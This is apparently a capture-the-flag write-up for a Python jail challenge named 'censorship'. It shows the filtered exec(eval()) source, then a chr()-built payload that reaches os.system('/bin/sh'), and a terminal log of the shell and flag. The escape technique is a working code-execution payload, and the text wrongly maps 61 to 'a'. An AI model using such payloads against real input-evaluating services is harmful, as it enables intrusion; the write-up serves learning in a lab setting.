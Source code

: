 # censorship

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a205a126-568d-4093-804f-e795ec1bf19e)

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if "flag" in code or "e" in code or "t" in code or "\\" in code:
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

## solution

to see which functions we have access to, we can use this:

```
>>> [_ for _ in dir(__builtins__) if "e" not in _ and "t" not in _ and "\\" not in _]
['BlockingIOError', 'EOFError', 'Ellipsis', 'EncodingWarning', 'IOError', 'LookupError', 'OSError', 'TabError', 'UnboundLocalError', 'Warning', '__build_class__', '__doc__', 'abs',
'all', 'any', 'ascii', 'bin', 'bool', 'chr', 'dir', 'divmod', 'globals', 'hash', 'id', 'issubclass', 'locals', 'map', 'max', 'min', 'ord', 'pow', 'round', 'sum', 'vars', 'zip']
```

notably, we have access to the `chr` function, which allows us to construct a string from integers (`61 -> "a"`)

to seal the deal, we have `vars`, which allows us access to `__builtins__`

we can use this payload to get access to a shell

```py
vars(vars(vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)])[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('os'))[chr(1
15)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)]('/bin/sh')
```

it does this:
`vars(vars(vars()['__builtins__'])['__import__']('os'))['system']('/bin/sh')`

which is equivalent to this:
`__builtins__.__import__('os').system('/bin/sh')`

and so we get the flag
```
quasar@quasar098:~$ nc amt.rs 31670
Give code: vars(vars(vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)])[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('os'))[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)]('/bin/sh')
$ ls
flag.py
run
$ cat flag.py
flag = "amateursCTF{i_l0v3_overwr1t1nG_functions..:D}"
$ exit
Give code: ^C
```

i did not overwrite any functions...
